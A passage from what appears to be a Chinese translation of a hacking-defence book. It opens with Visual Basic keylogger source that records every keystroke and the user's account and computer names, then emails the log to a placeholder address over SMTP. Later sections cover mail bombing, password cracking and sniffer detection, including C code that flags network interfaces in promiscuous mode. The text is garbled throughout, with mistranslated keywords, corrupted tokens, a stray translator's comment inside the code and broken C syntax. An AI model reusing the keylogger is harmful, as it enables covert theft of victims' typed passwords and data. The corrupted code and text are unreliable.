如果 Shift <> 0 且（keystate 与 &H1）= &H1 则
    Text1 = Text1 + "@"
结束 如果

keystate = Getasynckeystate(vbKey3)
如果 Shift = 0 且（keystate 与 &H1）= &H1 则
    Text1 = Text1 + "3"
结束 如果
如果 Shift <> 0 且（keystate 与 &H1）= &H1 则
    Text1 = Text1 + "#"
结束 如果

keystate = Getasynckeystate(vbKey4)
如果 Shift = 0 且（keystate 与 &H1）= &H1 则


 ```
Text1 = Text1 + "4"
    End If

If Shift <> 0 And (keystate And &H1) = &H1 Then
Text1 = Text1 + "$"
End If
```

```
keystate = Getasynckeystate(vbKey5)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "5"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
Text1 = Text1 + "%"
End If
```

```
keystate = Getasynckeystate(vbKey6)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "6"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
Text1 = Text1 + "^"
End If
```

```
keystate = Getasynckeystate(vbKey7)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = upheld "7"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
Text1 = Text1 + "&"
End If
```

```
keystate = Getasynckeystate(vbKey8)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "8"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
Text1 = Text1 + "*"
End If
```

```
keystate = Getasynckeystate(vbKey9)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "9"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
Text1 = Text1 + "("
End If

    keystate = Getasynckeystate(vbKey0)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "0"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
Text1 = Text1 + ")"
End If

    keystate = Getasynckeystate(vbKeyBack)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ bkspc } "
    End If

    keystate = Getasynckeystate(vbKeyTab)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ tab } "
    End If

    keystate = Getasynckeystate(vbKeyReturn)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + vbCrLf<|reserved_token_163670|>    End If

    keystate = Getasynckeystate(vbKeyShift)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ shift} "
    End If

    keystate = Getasynckeystate(vbKeyControl)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ ctrl} "
    End If

    keystate = Getasynckeystate(vbKeyMenu)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ alt} "
    End If

    keystate = Getasynckeystate(vbKeyPause)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ pause} "
    End If

    keystate = Getasynckeystate(vbKeyEscape)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ esc} "
    End If

    keystate = Getasynckeystate(vbKeySpace)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + " "
    End If

    keystate = Getasynckeystate(vbKeyEnd)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ end} "
    End If

    keystate = Getasynckeystate(vbKeyHome)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ home} "
    End If

keystate = Getasynckeystate(vbKeyLeft)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ left} "
    End If

keystate = Getasynckeystate(vbKeyRight)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ right} "
    End If

keystate = Getasynckeystate(vbKeyUp)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ up} "
    End If

    keystate = Getasynckeystate(vbKeyDown)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ down} "
    End If

keystate = Getasynckeystate(vbKeyInsert)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ insert} "
    End If

keystate = Getasynckeystate(vbKeyDelete)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ Delete} "
    End If

keystate = Getasynckeystate(&HBA)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + ";"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + ":"
    End If

keystate = Getasynckeystate(&HBB)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "="
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "+"
    End If

keystate = Getasynckeystate(&HBC)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + ","
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "<"
    End If

keystate = Getasynckeystate(&HBD)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "-"
    End If

If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "_"
    End If

keystate = Getasynckeystate(&HBE)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "."
    End If

If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + ">"
    End If

keystate = Getasynckeystate(&HBF)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "/"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "?"
    End If

keystate = Getasynckeystate(&HC0)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "'"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "~"
    End If

keystate = Getasynckeystate(&HDB)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "["
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ "
    End If

keystate = Getasynckeystate(&HDC)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "\\ "
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "|"
    End If

keystate = Getasynckeystate(&HDD)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "]"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "} "
    End If

keystate = Getasynckeystate(&HDE)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "'"
    End If

    If Shift <> 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + Chr$(34)
    End If

keystate = Getasynckeystate(vbKeyMultiply)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "*"
    End If

keystate = Getasynckeystate(vbKeyDivide)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "/"
    End If

keystate = Getasynckeystate(vbKeyAdd)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "+"
    End If

keystate = Getasynckeystate(vbKeySubtract)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "-"
    End If

keystate = Getasynckeystate(vbKeyDecimal)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ Del} "
    End If

  keystate = Getasynckeystate(vbKeyF1)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F1} "
    End If

  keystate = Getasynckeystate(vbKeyF2)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F2} "
    End If

  keystate = Getasynckeystate(vbKeyF3)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F3} "
    End If

  keystate = Getasynckeystate(vbKeyF4)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F4} "
    End If

  keystate = Getasynckeystate(vbKeyF5)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F5} "
    End If

    keystate = Getasynckeystate(vbKeyF6)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F6} "
    End If

    keystate = Getasynckeystate(vbKeyF7)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F7} "
    End If

    keystate = Getasynckeystate(vbKeyF8)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F8} "
    End If

    keystate = Getasynckeystate(vbKeyF9)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F9} "
    End If

    keystate = Getasynckeystate(vbKeyF10)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F10} "
    End If

    keystate = Getasynckeystate(vbKeyF11)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F11} "
    End If

    keystate = Getasynckeystate(vbKeyF12)
If Shift = 0 And (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ F12} "
    End If

If Shift <> 0 And (keystate And &H1) = &H1 Then
  Form1.Visible = True
    End If

    keystate = Getasynckeystate(vbKeyNumlock)
If (ke Funk And &H1) = &H1 Then
  Text1 = Text1 + "{ NumLock} "
    End If

    keystate = Getasynckeystate(vbKeyScrollLock)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ ScrollLock} "
    End If

keystate = Getasynckeystate(vbKeyPrint)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ PrintScreen} "
     End If

keystate = Getasynckeystate(vbKeyPageUp)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ PageUp} "
     End If

keystate = Getasynckeystate(vbKeyPageDown)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "{ Pagedown} "
     End If

keystate = Getasynckeystate(vbKeyNumpad1)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "1"
     End If

keystate = Getasynckeystate(vbKeyNumpad2)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "2"
     End If

keystate = Getasynckeystate(vbKeyNumpad3)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "3"
     End If

keystate = Getasynckeystate(vbKeyNumpad4)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "4"
     End If

keystate = Getasynckeystate(vbKeyNumpad5)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "5"
     End If

keystate = Getasynckeystate(vbKeyNumpad6)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "6"
     End If

keystate = Getasynckeystate(vbKeyNumpad7)
If (kestamp And &H1) = &H1 Then
  Text1 = Text1 + "7"
```


 End If

keystate = GetAsyncKeyState(vbKeyNumpad8)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "8"
End If

keystate = GetAsyncKeyState(vbKeyNumpad9)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "9"
End If

keystate = GetAsyncKeyState(vbKeyNumpad0)
If (keystate And &H1) = &H1 Then
  Text1 = Text1 + "0"
End If

End Sub

Private Sub Timer2_Timer()
Dim lfilesize As Long, txtlog As String, success As Integer
Dim from As String, name As String
Open logfile For Append As #1
Write #1, Text1
Close #1
Text1.Text = ""
lfilesize = FileLen(logfile)
If lfilesize >= 4000 Then
Text2 = ""
inform
Open logfile For Input As #1
While Not EOF(1)
Input #1, txtlog
DoEvents
Text2 = Text2 & vbCrLf & txtlog
Wend
Close #1
txtstatus = ""
    Call StartWinsock("")
success = smtp("mail.smtpserver.net", "25", "someone@mailserver.com",
  "someone@mailserver.com", "log file", "Tigerlog",
  "someone@mailserver.com", "l o g f i l e", Text2)
'sends the contents of the logfile to someone@mailserver.com
If success = 1 Then
Kill logfile
End If
    Call closesocket (mysock)
End If
End Sub

```
Public Sub FormOnTop(FormName As Form)
    Call SetWindowPos(FormName.hWnd, HWND_TOPMOST, 0&, 0&, 0&, 0&, flags)
End Sub
```

```
Function GetCaption(WindowHandle As Long) As String
    Dim Buffer As String, TextLength As Long
    TextLength& = GetWindowTextLength(WindowHandle&)
    Buffer$ = String(TextLength&, 0&)
    Call GetWindowText(WindowHandle&, Buffer$, TextLength& + 1)
    GetCaption$ = Buffer$
End Function
```

```
Sub inform()
    Dim szUser As String * 255
    Dim vers As String * 255
    Dim lang, lReturn, comp As Long
    Dim s, x As Long
    lReturn = GetUserName(szUser, 255)
    comp = GetComputerName(vers, 1024)
    Text2 = "Username- " & szUser
    Text2 = Text2 & vbCrLf & "Computer Name- " & vers
End Sub
```

本章所示的程序及配套模块文件可在本书附赠的CD中找到。

对于UNIX系统，至少应使用Tcp_Wrapper，采用Swatch（ciac.llnl.gov/ciac/ToolsUnixSysMon.html#Swatch）等日志监控工具，并使用Tripwire（ciac.llnl.gov/ciac/ToolsUnixSysMon.html#Tripwire）检测被篡改的程序。如需进行高级安全审计跟踪分析，可尝试Asax（ftp://ftp.cerias.purdue.edu/pub/tools/unix/sysutils/asax）。

### 防范邮件轰炸与垃圾邮件

近年来，电子邮件已成为公共和企业部门技术通信的明星。然而，伴随这种普及的是，随着越来越多的人使用电子邮件，每天也有更多的人成为各种黑客攻击的受害者。遭受邮件轰炸和/或垃圾邮件的侵害几乎已成为任何使用电子邮件的人的必经之路。幸运的是，针对从轻微恶作剧到彻底恶意的攻击，都有相应的对策可采取。本节将介绍各种保护措施，从手动老虎技术到服务器防御。但首先，有必要从分类角度回顾一下邮件轰炸和垃圾邮件：

- 邮件轰炸是指通常用于通过目标的SMTP网关发送未授权邮件，从而破坏收件人电子邮箱的电子邮件。邮件轰炸可以植入带巨大附件的单一电子邮件中，也可以分散在数千封电子邮件中，目的是淹没邮箱和/或服务器。

- 垃圾邮件是指试图向未请求/不希望接收的人发送电子邮件的行为。最常见的例子是商业广告。垃圾邮件的另一种形式是电子邮件欺诈，攻击者通过伪造他人电子邮件地址作为发送方来欺骗邮件。


 http://ipindex.dragonstar.net

http://kryten.eng.monash.edu.au/gspam.html

### 报告事件

www.abuse.net

http://spamcop.net

### 贡献资源：

- News.Admin.Net-Abuse 主页
- news.admin.net-abuse.bulletins
- news.admin.net-abuse.email
- news.admin.net-abuse.misc
- news.admin.net-abuse.policy
- news.admin.net-abuse.sightings
- news.admin.net-abuse.usenet

在服务器端，建议通过创建通用邮箱来修改网站联系邮箱，以接收未经请求邮件。这可以通过从公共邮局邮箱进行过滤来减少内部用户的垃圾邮件。但防范垃圾邮件只是个开始。幸运的是，当前的邮件服务器守护程序包含了集成的邮件炸弹分类保护。有关其保护配置的详细信息，请参阅您的软件手册。通常，这些信息会包括以下配置事项：

**身份验证。** 守护程序应配置为仅接受本地或内部邮件进行 SMTP 邮件中继。

**拦截。** 高级过滤功能可以指定要拦截的邮件。守护程序应允许用户指定多个标准来匹配邮件。

**筛选。** 守护程序应配置为接受有限的附件大小。

**分类。** 用户应能够指定规则来分类他们的邮件。例如，来自工作域的邮件可以发送到工作邮箱。

有一款名为 BombSquad 的实用工具（见图 4.13），主要用于从服务器端应对邮件轰炸。该软件允许您删除邮件炸弹，同时检索并保存重要邮件。这可用于任何支持标准 POP3 协议的邮箱。有关这些对策的更多信息，请参阅 CIAC 信息公告：http://ciac.llnl.gov/ciac/bulletins/i-005c.shtml。



图 4.13 使用 BombSquad 解除邮件炸弹。

### 防御密码破解

大多数用户软件、服务器守护程序和管理前端都包含某种形式的密码认证。其中许多还包含一些强大的加密程序。《黑客攻击揭秘，第二版》中 examined 了典型的操作系统密码方案。概括来说，当输入密码时，计算机的认证内核会将其加密，转换为一串字符，然后与一个列表进行核对，这基本上是存储在计算机中的密码文件。如果认证模块找到相同的字符串，就允许访问系统。想要侵入系统并获得特定访问权限的攻击者通常以这个密码文件为目标。根据配置情况，如果他们获得了特定的访问级别，就可以带走该文件的副本，然后运行密码破解程序将这些字符还原为原始密码！

尽管采取防护措施防范密码破解相对简单，但这却是最容易被忽视的防御黑客攻击形式之一。这需要采取必要步骤来锁定外围防御安全（使用本书和/或其他书籍中学到的技术），然后继续设置屏幕保护程序和程序密码保护，以及操作系统和文件防御（例如，密码影子和加密，如 DES 和 Blowfish）。您可以确保账户上使用的密码不会轻易被入侵者猜到或破解，方法很简单，就是使用 L0phtCrack（www.l0pht.com）等破解工具。定期审计密码文件也有助于发现弱密码——记住，您的系统安全性取决于其最薄弱的一环。像 L0phtCrack 这样的密码破解工具很容易获得且易于使用，如图 4.14 所示。



**图 4.14** 定期使用 L0phtCrack 等破解工具审计密码文件有助于减少入侵。

> **Tiger 提示** *《黑客攻击揭秘，第二版》*包含了大量的密码破解工具和字典文件。

可以安全地假设大多数读者无需考虑开发某种不可破解的、亿位加密程序。不过，密码的安全性只取决于您的使用意图。如果您的狗名叫 Spot，而且您认识的每个人，甚至是泛泛之交都知道这一点，那就不要用 Spot 作为密码。请记住，有些程序会用所有生物和非生物的名称来挑战认证方案。

显然，首先也是最重要的，我们最需要实现不可破解的加密机制。有优秀的免费软件、共享软件和商业产品可用于加密文件内容或电子邮件。要找到适合您的产品，可以先从 Yahoo（www.yahoo.com）、Lycos（www.lycos.com）、Google（www.google.com）、Northern Light（www.northernlight.com）等 popular 搜索引擎进行搜索，和/或查看软件中心，包括前述的 TuCows（www.tucows.com）和 CNET（download.cnet.com）。



**图 4.15** TigerCrypt 的主登录界面。

密码破解防御的第二个部分是制定您自己的 tiger 密码方案，它有一条重要规则：永远不要在登录名或密码中使用完整的*真实*单词，或将其作为一部分。相反，应使用混合大小写字符（大写和小写），与数字和特殊字符混合，具体取决于支持哪些字符。下一个经验法则是每个登录名和密码使用八个或更多字符。一个好的组合示例可能是 登录名：J16vNj30，密码：dg101Ko5。

拥有多个登录名和密码是另一种有效的密码保护形式。但这确实带来一个主要问题：如何跟踪众多难解的登录名和密码组合？答案*不是*把它们写在某处；那样会违背目的。答案是使用 TigerCrypt 等程序进行Keepass进行安全密码存储、检索和生成。

TigerCrypt 使用 128 位加密来确保个人密码安全和隐私。本书随附 CD 上的版本支持多用户保护配置文件。图 4.15 显示了该过程有多简单：从下拉列表中选择一个已注册的配置文件或创建新配置文件。创建新配置文件时，如果希望配置文件名称包含在主登录下拉列表中，请务必勾选"记住此用户配置文件"选项（见图 4.16）。

从 TigerCrypt 主界面（见图 4.17），您可以添加和删除加密登录账户以便轻松检索。多个登录名、密码、服务器名称和账户信息都被安全存储，只有使用您的用户配置文件密码才能检索。加密数据也可以导出和导入到文件中。此功能的主要原因是支持移动性，以及未来的 PDA 兼容性。为适应建议的每周密码维护，TigerCrypt 提供了随机密码生成器，可即时创建安全的无意义密码。界面选项允许您选择密码长度以及可用的字符（大写、小写、数字、扩展键和符号）进行随机化（见图 4.18）。



**图 4.16** 使用 TigerCrypt 创建新用户很容易，它支持多个配置文件。



**图 4.17** 导航 TigerCrypt 主界面。



**图 4.18** 在 TigerCrypt 中生成随机密码。

防范密码破解的最后一条规则在本书前面已经提过，但值得在此重申：*永远不要*告诉*任何人*您的登录名或密码。简而言之， plan 着把它带进来世。

### 防御嗅探器

嗅探器是被动拦截和复制系统、服务器、路由器和/或防火墙上所有网络流量的软件程序。合法的嗅探器功能包括网络监控和故障排除。相反的是入侵者安装的隐蔽嗅探器，它们可能极其危险，因为难以检测，并且可以捕获机密数据、网络发现信息，甚至明文密码。某些嗅探器，如适用于 Linux 的 Juggernaut，能够通过向服务器插入带有伪造源地址的 TCP 数据包来中断或劫持 telnet 会话。情况还会更糟。

针对嗅探器最有效和即时的保护措施是通过使用本书和/或其他书籍中描述的技术来防止初始的网络或站点入侵。其他保护措施包括使用交换核心进行网段划分。技术理论规定，如果每台机器都位于自己的网段和广播域中，嗅探器只会泄露其所在站点上的信息。另一个设计规则是集成非混杂模式网络接口卡（NIC）。大多数嗅探器依赖于支持混杂模式的 NIC（处于混杂模式时，NIC 不必参与网络通信；它只需复制所有流量供自己分析）。

判断某人在您的系统上运行嗅探器的一种方法是通过命令查询操作系统，例如在 *NIX 系统上，`ifconfig -a`。如果系统配置正确，输出将指示是否


接口处于混杂模式。其他命令包括活动进程列表工具 *ps*，以及一个名为 Check Promiscuous Mode (CPM) 的程序，可在 http://info.cert.org 找到。用于在 Windows 系统上检测和消除隐藏进程（如嗅探器）的一个优秀程序是 TigerWipe，如第 2 章所示。

另一个流行的 *NIX 程序 *ifstatus* 可以运行以识别处于调试或混杂模式的网络接口。该程序通常只有在发现接口处于不安全模式时才会产生输出。当这种情况发生时，输出大致如下：

```
    WARNING: TEST1.TIGER INTERFACE le0 IS IN PROMISCUOUS MODE.
    WARNING: TEST1.TIGER INTERFACE le1 IS IN DEBUG MODE.
```

#### ifstatus.c

```
#include <sys/param.h>
#include <ctype.h>
#include <stdio.h>

#ifndef MAXHOSTNAMELEN
#define MAXHOSTNAMELEN    64
#endif

char    *hostName       = NULL;
char    *programName    = NULL;

int     verbose         = 0;

main(argc, argv)
char **argv;
int argc;
{
    char *p;
    char hostNameBuf [MAXHOSTNAMELEN+1];

    programName = *argv;
    hostName = hostNameBuf;

    while (--argc) {
        if (*++argv != '-')
            usage ();

        switch (*++*argv) {
        case 'v':
            verbose++;
            break;
        default:
            usage ();
            break;

if (gethostname(hostNameBuf, sizeof(hostNameBuf)) < 0)
    fatal("gethostname", NULL);

for (p = hostName; *p != '\0'; p++) {
    if (islower(*p))
        *p = toupper(*p);
}

checkInterfaces();
exit(0);
```

```
fatal(s1, s2)
char *s1, *s2;
{
    fprintf(stderr, "%s: ", programName);

    if (s2 != NULL)
        fprintf(stderr, "%s: ", s2);

    perror(s1);
    exit(1);
}
```

```
usage()
{
    fprintf(stderr, "Usage: %s [-v]\n", programName);
    exit(1);
}
```

#### ifgeneric.c

```
#if defined(BSD) || defined(HPUX) || defined(SUNOS4)

#include <sys/param.h>
#include <sys/socket.h>
#ifdef SUNOS4
#include <sys/sockio.h>
#endif
#include <sys/ioctl.h>
#include <net/if.h>
#include <stdio.h>

extern char     *hostName;

extern int      verbose;

checkInterfaces()
```

```
{
    int n, s;
    char cbuf[1024];
    struct ifconf ifc;
    struct ifreq ifr, *ifrp;

    if ((s = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
        fatal("socket", NULL);

    ifc.ifc_buf = cbuf;
    ifc.ifc_len = sizeof(cbuf);

    if (ioctl(s, SIOCGIFCONF, (char *) &ifc) < 0)
        fatal("ioctl: SIOCGIFCONF", NULL);

    close(s);
    ifrp = ifc.ifc_req;

    for (n = ifc.ifc_len / sizeof(struct ifreq); n > 0; n--, ifrp++) {
        if ((s = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
            fatal("socket", NULL);

        strcpy(ifr.ifr_name, ifrp->ifr_name);

        if (ioctl(s, SIOCGIFFLAGS, (char *) &ifr) < 0)
            fatal("ioctl: SIOCGIFFLAGS", NULL);

        if (verbose) {
            printf("Interface %s: flags=0x%x\n", ifr.ifr_name,
                   ifr.ifr_flags);
        }

        if (ifr.ifr_flags & IFF_PROMISC) {
            printf("WARNING: %s INTERFACE %s IS IN PROMISCUOUS MODE.\n",
                   hostName, ifr.ifr_name);
        }

        if (ifr.ifr_flags & IFF_DEBUG) {
            printf("WARNING: %s INTERFACE %s IS IN DEBUG MODE.\n",
                   hostName, ifr.ifr_name);
        }

        close(s);
    }
}
#endif /* BSD || HPUX || SUNOS4 */
```

#### if-solaris.c

```
#if defined(SUNOS5)
```

```
#include <sys/param.h>
#include <sys/stream.h>
#include <sys/dditypes.h>
#include <sys/ethernet.h>
#include <nlist.h>
#include <fcntl.h>
#include <stdio.h>
#include <kvm.h>

#include "if-solaris.h"

struct nlist nl[] = {
#define X_IE     0
   { "iedev"   },
#define X_LE     1
   { "ledev"   },
#define X_QE     2
   { "qeup"    },
#define X_HME    3
   { "hmeup"   },
#define X_XX     4
   { 0         }
} ;

extern char   *hostName;
extern char   *programName;

extern int    verbose;

checkInterfaces()
{
    kvm_t *kd;

    if ((kd = kvm_open(NULL, NULL, NULL, O_RDONLY, programName)) ==
    NULL)
        fatal("kvm_open", NULL);

    if (kvm_nlist(kd, nl) < 0)
        fatal("kvm_nlist", NULL);

    if (nl[X_IE].n_value != 0)
        checkIE(kd);

    if (nl[X_LE].n_value != 0)
        checkLE(kd);

    if (nl[X_QE].n_value != 0)
        checkQE(kd);

    if (nl[X_HME].n_value != 0)
```

```
printf("接口肚子里的代码块无需翻译，保留原样即可。不过用户要求我翻译文本，我需要按照要求把说明文字翻译成中文，代码块保留原样。

我已经翻译了前面的段落，现在继续：

```
checkHME(kd);
kvm_close(kd);
}

checkIE(kd)
kvm_t *kd;
{
    struct ie ie;
    struct dev_info di;
    u_long ieaddr, dipaddr;

    ieaddr = nl[X_IE].n_value;

    do {
        if (kvm_read(kd, ieaddr, (char *) &ie, sizeof(struct ie)) < 0)
            fatal("kvm_read: ie", NULL);

        dipaddr = (u_long) ie.ie_dip;
        ieaddr = (u_long) ie.ie_nextp;

        if (dipaddr == 0)
            continue;

        if (kvm_read(kd, dipaddr, (char *) &di, sizeof(struct dev_info)) < 0)
            continue;

        if (verbose) {
            printf("Interface ie%d: flags=0x%x\n",
                   di.devi_instance, ie.ie_flags);
        }

        if (ie.ie_flags & IEPROMISC) {
            printf("WARNING: %s INTERFACE ie%d IS IN PROMISCUOUS MODE.\n",
                   hostName, di.devi_instance);
        }
    } while (ieaddr != 0);
}

checkLE(kd)
kvm_t *kd;
{
    struct le le;
    struct dev_info di;
    u_long leaddr, dipaddr;

    leaddr = nl[X_LE].n_value;

    do {
```

```
if (kvm_read(kd, leaddr, (char *) &le, sizeof(struct le)) < 0)
    fatal("kvm_read: le", NULL);

dipaddr = (u_long) le.le_dip;
leaddr = (u_long) le.le_nextp;

if (dipaddr == 0)
    continue;

if (kvm_read(kd, dipaddr, (char *) &di, sizeof(struct dev_info)) < 0)
    continue;

if (verbose) {
    printf("Interface le%d: flags=0x%x\n",
           di.devi_instance, le.le_flags);
}

if (le.le_flags & LEPROMISC) {
    printf("WARNING: %s INTERFACE le%d IS IN PROMISCUOUS MODE.\n",
           hostName, di.devi_instance);
}
} while (leaddr != 0);
}
```

```
checkQE(kd)
kvm_t *kd;
{
    struct qe qe;
    struct dev_info di;
    u_long qeaddr, dipaddr;

    qeaddr = nl[X_QE].n_value;

    do {
        if (kvm_read(kd, qeaddr, (char *) &qe, sizeof(struct qe)) < 0)
            fatal("kvm_read: qe", NULL);

        dipaddr = (u_long) qe.qe_dip;
        qeaddr = (u_long) qe.qe_nextp;

        if (dipaddr == 0)
            continue;

